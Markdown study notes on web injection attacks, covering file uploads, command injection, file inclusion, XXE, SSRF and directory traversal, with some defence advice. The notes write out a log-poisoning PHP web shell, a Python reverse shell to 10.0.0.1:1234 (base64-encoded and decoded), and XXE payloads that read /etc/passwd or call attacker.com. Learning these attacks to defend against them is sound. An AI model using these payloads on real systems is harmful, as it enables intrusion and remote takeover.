# More Injection

Useful injection payloads: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

If you ever get access to a sever, here are some *magical* things you should be sure to look at/do:

* Files/File uploads
* Logs
* Executing commands
* File includes
* Forward and reverse shells
* Reverse shells, tty
* Clean-up

## Unrestricted File Uploads

A *long time ago*, there was no validation for the types of files you could upload. Depending on what the application does with the uploaded file and where it is stored, the consequences of unrestricted file uploads can vary; system takeovers, client-side attacks, simple defacement

**File metadata**, like the path and file name are generally provided by the transport, such as HTTP multi-part encoding. This data may trick the application into overwriting a critical file or storing the file in a bad location. You should validate metadata carefully before using it.

File **size** and **content** can also create a range of problems depending on what the file is used for. You should analyse everything your application does with files and think carefully about what processing and interpreters are involved.

## Command Injection

Say we have an application that takes in IP address to check connectivity. It is likely it will run a shell command, so we can inject other commands to be run as well.


Note: the injected part is in green

## Server-side Include

In PHP, it is possible for us to access included files by modifying the URL



1. Brute force the location of the Apache HTTP error log
2. Poison `/var/log/httpd/error.log` with `<?php system(base64_decode($_COOKIE[‘asjdkfljhasfd’])); ?>`
3. ???
4. Why yes, my cookie is indeed

    ``` txt
    cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNv
    Y2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMC4wLjEiLDEy
    MzQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVw
    MihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOycKCg==
    ```

    or should I say `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Server-side include variants:

* `A:\`
* `http://`
* `gopher://` (and other non-HTTP)
* `\\blah` (UNC path)
* localhost (other local names)
* `::1` (ipv6)
* local web services?

### Web Shells

A **web shell** is a script that can be uploaded to a web server to enable remote control of the machine. Infected web servers can be either Internet-facing or internal to the network.

### Reverse Shells

In a typical remote system access scenario, the user is the client and the target machine is the server. The user initiates a remote shell connection and the target system listens for such connections. With a reverse shell, the roles are opposite. It is the target machine that initiates the connection to the user, and the user’s computer listens for incoming connections on a specified port.

Reverse shells are used because firewalls usually do not limit outgoing connections.

Here's a [reverse shell cheat sheet](http://highon.coffee/blog/reverse-shell-cheat-sheet/)

## XML External Entities

**XML** is a way to serialise data in a what that is both human and machine readable. It was the standard before JSON for client-server continuous interaction.



XML can use **external entities** like files, or system commands:

``` xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

The parse often has the ability to read any file on the server. We can exploit this by asking the parser to include a local file. This is a form of **Local File Inclusion (LFI)**.  
Consider a login request to a server made with XML:



We can send our request with a system resource request in it


Other XXE variants:

``` xml
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
<!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
<!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
<!ENTITY xxe SYSTEM "expect://id" >]> (rare)
```

PHP has a module called Expect that lets you run a command as it it was a file by using the `expect` protocol.

``` php
$stream = fopen("expect://ls", "r");
```

If installed, you can use XXE to get code execution



There are many ways to exploit an XML parse and get around any defences.

* You can use document type definitions (DTD) and entities to get past filters and nest payloads.
* You can use HTTP requests to send data to your own server

Useful links:

* [More notes](XXE.md)
* [XXE](ttps://portswigger.net/web-security/xxe)
* [Blind XXE](https://portswigger.net/web-security/xxe/blind)
* [XXE payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

tl;dr:

* Disable external entity processing
* Don't use PHP
* Don't use XML - most JSON parsing libraries are more secure (see [here](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/))

Parser exploits are very relevant. The Internet moves rapidly and a lot of it still runs on XML. Furthermore, developers forget to take things out and manage old code. It you prod around any sites, you will most likely find things your shouldn't (be ethical though)

## Server-Side Request Forgery (SSRF)

**Server-side Request Forgery (SSRF)** is when an attacker tricks a web application into making requests to the internal system on their behalf.  
This typically works on URL based inputs by users; e.g. image import function from URL. It is possible to use other URLs; e.g. `file:///`, `gopher://`, `data://` and `dict://`

You can:

* enumerate internal/external services
* exfiltrate data
* abuse API calls
* invoke cloud services APIs

**URI (Uniform Resource Identifier)** was defined in RFC-3986 and is used to specify a resource.



Different libraries parse URIs differently.

* Python libraries parsing the null char

    

* CR-LF injections

    

SSRF defences:

* Whitelisting domains
* Disable access to internal domains - firewall/network policies
* Network level restrictions
* Be aware that URL parsing is hard and could be easily bypassed (so never use it as the only defence)
* Block access to cloud metadata services (e.g. 169.254.169.254 for AWS)

## Directory Traversal

Directory traversal affects all languages (that have functionality which loads data from a file). It is doable in Python, Ruby, ASP.NET but rare.  



Frameworks can make your code *more* vulnerable to this (by implementing an equivalent of `include()`)

Often IOT devices implement a single web server in `C:` there is no interpreted language.  
Encoding is often strange, or missing:



Nginx had a vulnerability where it misinterpreted a missing `/`



### Web Application Firewalls

**Web Application Firewalls (WAFs)** provide web security for online services from malicious security attacks such as SQLi and XSS. They protect applications by filtering and monitoring HTTP traffic between a web application and the Internet. They typically protect applications from attacks such as CSRF, XSS, file inclusion, and SQLi.

What WAF is and isn't good at:



It is possibly to exploit WAFs. Find out what WAF is running, and look into if there are any publicly known bypasses for it. It is possible there are exploits in the WAF itself.
